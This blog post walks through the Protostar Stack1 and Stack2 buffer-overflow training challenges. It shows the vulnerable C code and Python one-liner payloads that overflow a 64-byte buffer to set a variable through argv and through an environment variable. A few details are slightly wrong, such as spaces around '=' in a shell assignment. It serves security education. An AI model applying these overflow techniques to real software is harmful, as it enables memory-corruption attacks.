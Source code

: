 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , Hexadecimal values and Environment Variables ! - Protostar Stack1 , Stack2
permalink: /BinaryExploitation-BOF2
image: binary-exploitation/BOF2/0.png
---
```


<hr>
## Introduction 
#### So last week I talked about bufferoverflows and solved Protostar Stack0. Today I'm gonna solve Stack1 and Stack2, they are not different from Stack0 in their objective which is changing a variable's value , but they are different in the way of changing that variable for sure. With that being said let's jump right in !
![](/images/binary-exploitation/BOF2/0.png)
#### If you haven't read my previous [post](/BinaryExploitation-BOF/) yet I recommend reading it before this.
<br>
<hr>
## Stack1
#### For this challenge we got this code : 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```
<hr>
### Breakdown
#### So this code :
#### creates a variable called "modified" and assigns a buffer of 64 chars to it.
```
volatile int modified; 
char buffer[64];
``` 
<br>
#### Checks if we supplied an argument or not.
```
 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }
```
<br>
#### Sets the value of the "modified" variable into 0 , then it copies whatever we give it `argv[1]` into the buffer of "modified".
```
modified = 0;
strcpy(buffer, argv[1]);
```
<br>
#### Then it checks if the variable's value is `0x61626364` or not
```
if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
```
<br>
<hr>
## Solution
#### So it's similar to Stack0 except we need to set the value of the variable into a specific value which is `0x61626364` in this case. This is the hexadecimal value of "dcba" now keep in mind that when reading hex you read it from right to left not left to right. To slove this our input will be 64 chars then after that the value , let's try it.
#### Let's execute stack1 
![](/images/binary-exploitation/BOF2/1.png)
#### We get please specify an argument so let's enter anything.
![](/images/binary-exploitation/BOF2/2.png)
<br>
<br>
<br>
![](/images/binary-exploitation/BOF2/3.png)
#### We get try again you got 0x00000000 , Let's try to change that by exceeding the buffer and entering any char for example "b"
```
./stack1 `python -c "print ('A' * 64 + 'b')"`
```
![](/images/binary-exploitation/BOF2/4.png)
#### And we see that the value changed to 0x00000062 which is the hex value of "b" so our exploit is working, Let's apply that.
```
./stack1 `python -c "print ('A' * 64 + 'dcba')"`
```
![](/images/binary-exploitation/BOF2/5.png)
#### And we did it ! 
#### But can we do it in another way ? instead of entering ASCII we can use the hex values and python will translate them.
```
./stack1 `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
```
![](/images/binary-exploitation/BOF2/6.png)
<br>
<hr>
## Stack2
#### For this challenge we got this code :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];
 char *variable;

 variable = getenv("GREENIE");

 if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }

 modified = 0;

 strcpy(buffer, variable);

 if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }

}
```
<br>
<hr>
### Breakdown 
#### This code :
#### As always creates a variable called "modified" and assigns a buffer of 64 chars to it 
```
volatile int modified;
char buffer[64];
```
<br>
#### The new thing here is a variable called "variable" which gets its value from an environment variable called "GREENIE". 
```
variable = getenv("GREENIE");
```
<br>
#### The program checks if the variable "variable" has a value or not 
```
if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }
```
<br>
#### Sets the value of modified to 0
```
modified = 0;
```
<br>
#### Then it copies the value of "variable" into the buffer of "modified"
```
strcpy(buffer, variable);
```
<br>
#### After that it checks if the value of "modified" is `0x0d0a0d0a` or not
```
if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
```
<hr>
## Solution 
#### So this time we can't specify the value directly instead of that we have to do it through an environment variable. And this is actually a good example that shows the importance of being creative with your exploits , you won't face the same situation every time so you have to come up with an exploit that fits with the application's functionality.
#### In this situation we can apply our usual exploit and store that value into the environment variable "GREENIE".
#### But wait a minute , what is an environment variable ?
<hr>
### Environment Variables
#### Simply , Environment variables are variables that are being used to store values of some stuff that the system uses also the services can access those variables. For a better demonstration let's see an example.
#### If we take the environment variable BASH and look at it :
![](/images/binary-exploitation/BOF2/7.png)
#### We see that its value is : /bin/bash
#### So for example if I want to run bash I type bash in the terminal instead of `./bin/bash` because the system calls the variable BASH and finds its path.
#### But the system won't store a variable for every binary that exists on the system so there's an environment variable called PATH which has all the possible dirs that could contain bins, So when you type for example : python, it searches in those dirs then executes python 
![](/images/binary-exploitation/BOF2/8.png)
#### So you get the idea. Understanding environment variables is not necessary for this challenge but I wanted to talk about it just to make everything clear for anyone.
#### [More about environment variables](https://en.wikipedia.org/wiki/Environment_variable)
<br>
<hr>
#### Now let's execute stack2
![](/images/binary-exploitation/BOF2/9.png)
#### We get Please set the GREENIE environment variable.
#### There's no environment variable called GREENIE so we need to create it. We will make it's value equal to 64 chars then `0x0d0a0d0a`
#### This time we won't be able to use the value in ASCII like we did with stack1 because `0x0d` is a return `\r` and `0x0a` is a new line `\n` and we can't type those so we will use the hex values and python will translate them.
```
GREENIE = `python -c "print ('A' * 64 + '\x0a\x0d\x0a\x0d')"`
```
![](/images/binary-exploitation/BOF2/10.png)
#### When we look at it we only see the 64 A's and that's because we can't see the new line or the return
#### Now we need to export it to the environment variables list then we are good to go. 
```
export GREENIE
./stack2
```
![](/images/binary-exploitation/BOF2/11.png)
#### And we did it ! 
<br>
<br>
#### That’s it , Feedback is appreciated.
#### Thanks for reading !
<hr>
